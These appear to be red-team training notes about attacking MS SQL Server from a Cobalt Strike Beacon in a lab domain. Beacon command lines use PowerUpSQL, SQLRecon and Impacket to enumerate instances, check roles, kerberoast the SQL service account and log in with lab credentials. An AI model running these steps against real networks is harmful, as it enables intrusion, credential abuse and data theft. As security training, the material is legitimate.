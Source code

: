 # MS SQL Servers

Microsoft SQL Server is a relational DBMS commonly found in Windows, used to store information to support many business functions. In addition to the obvious data theft opportunities, MSSQL has a large attack surface allowing code execution, privilege escalation, lateral movement, and persistence.

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) and [SQLRecon](https://github.com/skahwah/SQLRecon) are good for enumerating and interacting with MS SQL.

PowerUpSQL can find MSSQL using Get-SQLInstanceDomain, Get-SQLInstanceBroadcast and Get-SQLInstanceScanUDP:

* Get-SQLInstanceDomain searches for SPNs that begin with MSSQL*. Can also search the domain for groups that sound like they may have access to database instances (for example, a "SQL Admins" group).

      beacon> powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
      beacon> powershell Get-SQLInstanceDomain

* Get-SQLConnectionTest can be used to test whether we can connect to the database:

      beacon> powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl

* Get-SQLServerInfo to gather more information about the instance:

      beacon> powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"

If multiple SQL Servers exist, chain these commands together to automate the data collection:

    beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo

SQLRecon can also enumerate servers via SPNs and fetch information about the instance with the ```info``` module.

    beacon> execute-assembly SQLRecon.exe /enum:sqlspns
    beacon> execute-assembly SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info

The /auth:wintoken option uses the access token of the Beacon. The example output shows that while the database is accessible, the current user is not a sysadmin. SQLRecon has a nice module which can show us what roles we do have:

    beacon> execute-assembly SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:whoami

On a default installation, standard users do not have the "public" role by default and must be explicitly granted through SQL Server Manager Studio (SSMS). The SQL information cannot be enumerated if the user's security context does not have a valid role. Finding a user (or group) that does have access can be challenging. Look for appropriately named domain groups and their members:

    beacon> powershell Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }

Another option is to go after the MS SQL service account itself (often given sysadmin). The basis of BloodHound's SQLAdmin attack path. The domain account used to run the service is DEV\mssql_svc and the account is kerberoastable owing to its SPN.  If we can crack its plaintext password, we can use it to gain access to the SQL instance. The credentials can be used with make_token in Beacon and /a:WinToken in SQLRecon or the /a:WinDomain option with /d:<domain> /u:<username> /p:<password> in SQLRecon directly:

    beacon> execute-assembly SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /h:sql-2.dev.cyberbotic.io,1433 /m:whoami

With access several options exist for issuing queries against a SQL instance.

* Get-SQLQuery from PowerUpSQL:

      beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"

* SQLRecon:

      beacon> execute-assembly SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:query /c:"select @@servername"

* mssqlclient.py from Impacket via proxychains:

      ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25
      SQL> select @@servername;

* [HeidiSQL](https://www.heidisql.com) via Proxifier (a GUI tool)

## 
